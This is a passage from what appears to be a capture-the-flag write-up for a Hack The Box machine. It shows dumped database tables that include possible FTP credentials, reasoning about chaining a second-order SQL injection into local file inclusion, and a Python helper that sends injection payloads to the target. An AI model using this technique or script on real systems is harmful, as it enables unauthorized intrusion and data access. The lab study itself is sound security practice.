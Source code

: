 ```
| 465 | about       | 0        |
| 587 | contact     | 0        |
+-----+-------------+----------+
[...]
Table: filepath
+---------+--------------------------------------+
| name    | path                                 |
+---------+--------------------------------------+
| about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
| contact | 0f710bba8d16303a415266af8bb52fcb.php |
| main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
+---------+--------------------------------------+
[...]

```

Here are my observations for each of the table:

- `config`: There's a lot of data here, including some potential credentials in `ftp_pass`. There's also a `checkrelease` option that points to a perl script in `/home/guly/`
- `idname`: That table contains the mapping between the ID specified in the GET request and a name
- `filepath`: The name from the previous table seems to be referenced here in this table

### Second order SQL injection

I have the database table with some possible credentials but there's nothing else open on this box except HTTP and HTTPS and I haven't found any other hidden directory and/or vhost. There's possibly a service listening on an IPv6 address but I don't know the address and I can't scan the entire /64 because that address space is too large to scan.

The MD5 hash of the last two entries in the filepath table are the md5sum of the strings `submission` and `smtp`. Thinking that this was a hint, I hashed a couple of wordlists and ran those through wfuzz but was unsuccesfull in finding any other files.

I don't have the PHP source code but I can guess that there are two SQL queries being issued from index.php: one to map the ID to the name, and another one to map the name to the filename. If I can perform an injection on the first query, I can probably do the same on the second one and control which file gets included by the PHP code, basically getting an LFI.

I don't like testing SQL injections within Burp so I made a script to help me with the process:

```python
import readline
import requests

proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }

while True:
    cmd = raw_input("> ")
    payload = cmd
    payload = payload + "-- -"
    print payload
    r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
    soup = BeautifulSoup(r.text, 'html.parser')
    print soup.body
```
